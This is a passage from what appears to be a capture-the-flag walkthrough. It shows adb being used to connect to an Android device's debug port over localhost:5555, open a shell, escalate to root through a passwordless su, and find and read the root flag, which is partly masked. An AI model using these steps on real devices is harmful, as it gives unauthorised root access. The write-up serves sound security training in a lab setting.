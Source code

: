 `adb connect [ip]` will start the connection, and it shows connected:

```

oxdf@parrot$ adb connect localhost:5555
connected to localhost:5555
oxdf@parrot$ adb devices
List of devices attached
localhost:5555  device

```

`adb shell` will drop to a shell:

```

oxdf@parrot$ adb shell
x86_64:/ $ 

```

If for some reason there are multiple devices connected from my VM, `adb -s localhost:5555 shell` will specify which to connect to.

### root

That’s still a low-priv connection. Luckily for me, when I connect over `adb`, `su` with no password will drop to root:

```

x86_64:/ $ su
:/ # id
uid=0(root) gid=0(root) groups=0(root) context=u:r:su:s0

```

I’ll run `find` to locate the flag (as there’s no `/root`) in `/data`:

```

:/ # find / -name root.txt 2>/dev/null
/data/root.txt
:/ # cat /data/root.txt
f04fc82b************************

```